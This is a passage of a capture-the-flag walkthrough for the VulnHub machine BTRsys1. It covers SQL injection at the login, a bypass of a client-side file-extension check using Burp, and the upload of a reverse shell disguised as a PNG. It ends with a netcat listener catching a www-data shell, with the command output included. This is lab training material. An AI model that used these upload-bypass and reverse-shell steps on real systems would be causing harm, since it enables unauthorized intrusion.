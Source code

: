 so we need to put `@btrisk.com` string in the user field to fullfil the javascript needs

if you only put the `@btrisk.com` in the username, you will be logged in but you see no information because does not select anything

![empty](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5b9e58f0-f5a4-45e1-9f21-8a72f5519a4b)

but if you check for the SQLi here and use the following payload, you see the results :

![sqli](https://github.com/Git-K3rnel/VulnHub/assets/127470407/dc1a4fbc-79b5-49a8-9172-6335ac18c05e)


![fullpage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/a4f99e40-d9f2-4d1c-b628-eab8473c8f3d)

now we can upload a file here, but first check the page source and you see the javascript again :

```javascript
// accept=".jpg,.png"
function getFile(){
    var filename = document.getElementById("dosya").value;
    var sonuc = ((/[.]/.exec(filename)) ? /[^.]+$/.exec(filename) : undefined);
    if((sonuc == "jpg") || (sonuc == "gif") || (sonuc == "png")){
		document.myform.submit();
    }else{
        //mesaj
        alert("Yanlizca JPG,PNG dosyalari yukleyebilirsiniz.");
		return false;
		
		
    }
}
```

## 3.Gaining Shell

This code just prevents us from uploading files which does not have `jpg`, `gif` or `png` extensions.

but frontend control mechanism can be bypassed by intercepting the traffic with a proxy like burp so prepare

a reverse shell and call the file `revshell.png`, intercept the traffic in burp and change the extension :

![revshell](https://github.com/Git-K3rnel/VulnHub/assets/127470407/14561d2e-280c-443c-b504-54d7bbf1173c)

then start a listener and check the `/uploads` folder you see the file you've just uploaded and you gain a shell :

```bash
nc -nvlp 4444                     
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.236] 47464
Linux BTRsys1 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 i686 i686 GNU/Linux
 00:30:40 up  1:32,  0 users,  load average: 0.00, 0.02, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
